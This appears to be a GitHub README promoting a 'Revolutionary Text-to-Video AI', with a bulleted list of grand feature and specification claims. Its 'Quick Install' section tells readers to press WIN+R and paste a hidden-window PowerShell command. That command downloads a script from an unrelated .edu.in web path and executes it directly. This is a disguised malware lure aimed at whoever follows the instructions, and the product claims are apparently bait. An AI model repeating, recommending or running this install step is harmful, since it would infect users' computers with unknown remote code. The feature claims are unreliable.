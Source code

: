 ### 🌟 Revolutionary Text-to-Video AI
#### 🚀 Core Capabilities

<details>
<summary><strong>✅ Hyper-Realistic Generation</strong></summary>


1080p+ video output at 60fps

Physics-accurate motion simulation

Temporal consistency across frames

</details>

<details>
<summary><strong>✅ Multi-Modal Understanding</strong></summary>


Complex scene composition

Emotion-driven character animation

Style transfer (anime, photoreal, painterly)


</details>


### 🛠️ Advanced Features
#### 🎨 Creative Control

<details>
<summary><strong>🎚️ Precision Editing</strong></summary>


Frame-by-frame prompt adjustment

Dynamic camera path control

Object-level attribute manipulation

</details>

<details>
<summary><strong>🔄 Consistency Tools</strong></summary>


Character/model persistence

Environment continuity locks

Motion trajectory guides

</details>

#### 📊 Enterprise Solutions

<details>
<summary><strong>🏢 Brand Customization</strong></summary>


Logo/style guideline integration

Product visualization pipelines

Ad campaign generator
</details>

<details>
<summary><strong>⚙️ Technical Specifications</strong></summary>


Diffusion Transformer (DiT) framework

100B+ parameter base model

Multi-scale video compression

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```
